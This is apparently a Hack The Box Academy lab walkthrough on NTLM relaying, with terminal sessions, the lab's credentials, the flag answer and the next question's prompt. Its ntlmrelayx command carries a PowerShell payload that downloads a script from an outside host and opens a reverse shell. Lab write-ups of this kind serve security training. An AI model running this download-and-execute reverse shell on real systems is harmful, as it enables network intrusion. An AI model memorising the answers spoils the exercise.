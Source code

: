 ```shell-session
htb-student@ubuntu:~$ cd tools/Responder
htb-student@ubuntu:~/tools/Responder$ sudo ntlmrelayx.py -tf ./targets.txt -smb2support -c "powershell -c IEX(New-Object NET.WebClient).DownloadString('http://172.16.117.30:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 172.16.117.30 -Port 7331"
[sudo] password for htb-student: HTB_@cademy_stdnt!
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Running in relay mode to hosts in targetfile
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server

[*] Setting up RAW Server on port 6666
[*] Servers started, waiting for connections
<SNIP>
```

Once the students have executed the steps of starting a Python HTTP server, having a netcat listener, having Responder to poison requests, and ntlmrelayx specifying the command to download and start the reverse shell, they will come to know that one of the authentications that got relayed managed to provide a reverse shell.

Code: shell

```shell
type flag.txt
```

```shell-session
PS C:\Windows\system32>type flag.txt
NTLMRelayx1$Fun
```

Answer: `NTLMRelayx1$Fun`

## NTLMRelayx Use Cases

### Question 1

#### "Use impacket's SOCKS server to hold RMONTY's relayed connections and abuse them to find an accessible shared folder on one of the relay targets; once connected to it, submit the contents of the file 'connections.txt'."
